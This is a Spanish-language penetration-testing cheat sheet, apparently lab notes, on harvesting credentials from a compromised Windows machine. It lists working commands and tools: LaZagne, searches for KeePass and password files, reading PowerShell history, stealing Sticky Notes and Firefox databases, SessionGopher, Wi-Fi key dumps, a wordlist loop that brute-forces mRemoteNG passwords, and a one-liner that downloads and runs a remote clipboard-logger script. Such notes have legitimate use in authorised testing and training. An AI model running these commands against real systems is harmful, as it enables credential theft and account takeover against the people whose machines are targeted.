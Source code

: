 Como primer herramienta podemos buscar (si estamos por rdp) podemos usar el buscador de windows con las siguientes palabras, talvez aparezcan ficheros con contraseñas guardadas:

- Passwords	
- Passphrases	
- Keys
- Username	
- User account	
- Creds
- Users	
- Passkeys	
- Passphrases
- configuration	
- dbcredential	
- dbpassword
- pwd	
- Login	
- Credentials

Lo siguiente que podemos hacer es unsar lazagne 

https://github.com/AlessandroZ/LaZagne/releases/

Una vez que lo metimos en la pc victima lo corremos con:

    start lazagne.exe all

### Buscar bases de datos de keepass

    Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

### Buscar informacipon sensible de servidores XAMPP

    Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

### Buscar información sensible en un path

    Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

#### Powershell History

    (Get-PSReadLineOption).HistorySavePath

#### Podemos también en un oneliner recorrer todos los archivos historicos de powershell a los que tenemos acceso

    foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

#### también podemos usar el findr por cmd:

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml *.settings

#### El archivo unnatend.xml puede tener contraseñas también

#### Buscar archivos en base a una palabra:

    findstr /spin "password" *.* 

#### Buscar con powershell
    select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

#### BUscar una palabra en base a una extensión:
    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

#### Decrypting PowerShell Credentials xml
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password

#### Podemos encontrar también credenciales de en "binario"

                01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b


#### Extraer contraseñas de sticky notes
Las sticky notes (aunque no lo demuesten) son una base de datos.

Esta base de datos se encuentra en:

C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

Podemos acceder a ella y luego robarla para cargarla en nuestra pc atacante o dumpearla con powershell mediante PSSQLite.
##### Powershell local
- Import-Module .\PSSQLite.psd1
- $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
- Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap

##### Linux:
- Robamos el archivo
- Corremos con strings

#### Cmdkey saved credentials
Podemos listar las keys guardadas en el cmd. En un entorno de AD podríamos llegar a encontrar contraseñas guardadas que nos permitan acceder a otros recursos con su ruta incluída.

        cmdkey /list

También podemos correr cosas como el usuario si tiene las creds guardadas en el cmd

        runas /savecred /user:inlanefreight\bob "COMMAND HERE"

#### Extraer credenciales de los browsers:
Podemos usar herramientas como sharpchrome para lograrlo

        .\SharpChrome.exe logins /unprotect

#### También traer contraseñas de chrome:

    gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

#### Extraer contraseñas de firefox
Firefox guarda sus contraseñas en una sqlite

##### Robamos la sqlite de la victima
    copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
##### En la pc atacante:
    python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

    
#### Extraer credenciales de Putty, Winscp, Filezilla, SuperPutty y RDP
para esto podemos usar SessionGopher

        Import-Module .\SessionGopher.ps1
        
        Invoke-SessionGopher -Target <Domain>

#### Clear-text passwords en el registro
        HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

#### Contraseñas de wifi

##### 1) listamos las redes
        netsh wlan show profile
##### 2) Dumpeamos los datos
        netsh wlan show profile <red> key=clear

### mRemteNG
- mRemoteNG es un software que permite conectarse con sistemas remotos mediante VNC,RDP, SSH y otros.
- Guarda las credenciales en el archivo confCons.xml
- su contraseña por defecto es mR3m
- La ubicación de confCons.xml es <user>\appdata\roaming\mremoteng
  #### Desencriptar un password de mremoteng con la contraseña por default
      python3 mremoteng_decrypt.py -s "<password>"
  #### Desencriptar un mremoteng con custom password
      for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "<pass>" -p $password 2>/dev/null;done

### Obtener el clipboard
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
    Invoke-ClipboardLogger
---

### Obtener credenciales de AWS

Cuando realizamos una autenticación en AWS utilizando el cli o el sdk se enera un conjunto de credenciales que incluyen un Access Key Id y un Secret Access Key. Suele uardarse en:

    C:\Users\NombreDeUsuario\.aws\credentials

